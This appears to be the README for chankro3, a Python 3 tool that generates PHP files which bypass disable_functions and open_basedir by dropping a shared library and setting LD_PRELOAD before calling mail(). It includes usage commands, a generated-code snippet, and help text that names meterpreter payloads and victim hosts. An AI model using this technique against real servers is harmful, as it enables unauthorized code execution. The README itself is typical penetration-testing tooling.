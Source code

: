 # chankro3
In a nutshell: System Administrator disabled various functions in `php.ini`, but this script sets  `LD_PRELOAD` in the environment to our payload and executes it when executing a normal php command: mail.

To learn more about this checkout the original bug report from 2008: [
Bug #46741	putenv()+mail() allows for open_basedir bypass and "disabled" functionality by gat3way](https://bugs.php.net/bug.php?id=46741)



The original chankro was written in python2 and seems unsupported: [Chankro](https://github.com/TarlogicSecurity/Chankro)

## Installation

To run chankro3 there are no 3rd party packages required. Simply run it with `python3`.

Simply clone the repo:
```
git clone https://github.com/richardschwabe/chankro3.git
cd chankro3
python chankro3.py --help
```

## Usage

Run this to run the example:

```shell
python chankro3.py -p example_payload.sh -o example.php -r /var/www/html -n myname.so
```

This example uses the [example payload](example_payload.sh). Simply running a `whoami` command and saves its output to `/var/www/html/whoami.txt`.
Once you run the example command you should see a [example.php](example.php) file in your current directory. If you check the contents of the file you will see the custon name `myname` in two lines:

```php
...SNIP...
file_put_contents('/var/www/html/myname.so', base64_decode($hook));
...SNIP...
putenv('LD_PRELOAD=/var/www/html/myname.so');
...SNIP...
```

The remote path is set where you can find your `myname.so` file.



Here is the help command:

```shell
❯ python chankro3.py --help
usage: chankro3.py [-h] [-a {32,64}] [-p PAYLOAD] [-o OUTPUT] [-r REMOTE_PATH] [-n CUSTOM_NAME]

Generates PHP script to exploit disable_function and open_basedir

This version is a bit more customisable and for Python 3! You can find more info at:
Author: Richard Schwabe
Github: https://github.com/richardschwabe/chankro3

Original was for python2 you can find it here:
Author:   TarlogicSecurity
Original: https://github.com/TarlogicSecurity/Chankro

options:
  -h, --help            show this help message and exit
  -a {32,64}, --arch {32,64}
                        x86 or x64 Architecture, Default: 32
  -p PAYLOAD, --payload PAYLOAD
                        Binary to be executed (p.e. meterpreter)
  -o OUTPUT, --output OUTPUT
                        Output PHP filename, Default:chankro3.php
  -r REMOTE_PATH, --remote REMOTE_PATH
                        Absolute Path on Victim Host, Default: /tmp
  -n CUSTOM_NAME, --name CUSTOM_NAME
                        Custom name for remote chankro3 file, Default: chankro3.so
```


## License
For the contents of this repo, apart from otherwise specified:
[MIT](LICENSE)

For hook.c, hook32.so, hook64.so: GNU v3 as specified by the original Author.